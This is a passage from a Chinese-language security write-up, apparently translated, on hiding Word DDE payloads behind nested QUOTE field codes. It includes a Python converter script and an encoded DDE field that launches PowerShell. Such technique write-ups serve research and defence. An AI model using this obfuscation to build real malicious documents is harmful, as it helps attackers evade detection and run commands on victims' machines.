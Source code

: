 由于这方面技术会涉及到域代码相关知识，我们可以尝试下能否在这一领域找到其他可用的混淆点。快速搜索“list field codes word”关键词后，我们找到了微软公布的一份[支持文档](https://support.office.com/en-us/article/List-of-field-codes-in-Word-1ad6d91a-55a7-4a8d-b535-cf7888659a51)，这份文档中列出了Word支持的所有域代码，对我们而言非常有用。花了一些时间遍历这些域代码后，我从中找到了一个可能用得上的代码，即QUOTE域。微软对这个域的描述为：“Quote域可以将特定的文本插入文档中”。这听起来非常有用，因为我们的目的是寻找能够修改载荷字符串的方法，而利用QUOTE域，我们可以修改字符串，并将其插入文档中。

顺便提一句，需要注意的是，我们可以在Word中使用嵌套形式的域代码，例如，关于QUOTE域，我们可以这么使用：

```
`{` QUOTE `{` IF `{` DATE @ "M" `}` = 1 "12" "`{`= `{` DATE @ "M" `}` -1 `}`/1/03" @ "MMMM"`}` `}`
```

上面例子中包含嵌套形式的域代码，QUOTE域内部包含IF域代码，其内容会取决于FORMULA(=)的处理结果，最终包含DATE或者经过格式化的日期数据。

我们可以向QUOTE域提供某个字符的数字编码，它会将这个编码转换为对应的字符（我并没有找到关于这个技术点的参考资料）。比如，如果我们想要得到数字编码为65所对应的那个字符，我们可以在Word中使用如下域：

```
`{` QUOTE 65 `}`
```

这段代码最终会显示为字符A，而不是数字65，这正是我们希望得到的结果。现在我们可以将攻击载荷重新以数字形式进行编码，这样Word在执行我们的DDE之前会自动将数字编码转换为字符串。完整的代码如下：



```
`{`SET c "`{`QUOTE 65 65 65 65`}`"`}`
`{`SET d "`{`QUOTE 71 71 71 71`}`"`}`
`{`DDE `{`REF c`}` `{`REF d`}``}`
```

上面这段内容等价于：

```
`{`DDE "AAAA" "GGGG"`}`
```

此时，我们可以充分发挥想象力，在载荷中将AAAA以及GGGG替换为前面的那段代码。为了使替换过程更加便捷，我编写了一个python脚本，可以将给定的字符串转换为等效的QUOTE域代码。



```
#!/usr/env/python
print("Converts a string to the `{`QUOTE`}` Field code")
st = raw_input("String to convert: ")
out = "`{` QUOTE "
for c in st:
    out += (" %s"%ord(c))
out += " `}`"
print(out)
```

如果想要弹出powershell，我们可以使用如下代码：



```
`{`SET C "`{`QUOTE 67 58 92 92 80 114 111 103 114 97 109 115 92 92 77 105 99 114 111 115 111 102 116 92 92 79 102 102 105 99 101 92 92 77 83 87 111 114 100 46 101 120 101 92 92 46 46 92 92 46 46 92 92 46 46 92 92 46 46 92 92 119 105 110 100 111 119 115 92 92 115 121 115 116 101 109 51 50 92 92 119 105 110 100 111 119 115 112 111 119 101 114 115 104 101 108 108 92 92 118 49 46 48 92 92 112 111 119 101 114 115 104 101 108 108 46 101 120 101`}` "`}`
`{`DDE `{`REF C`}`  "a"`}`
```

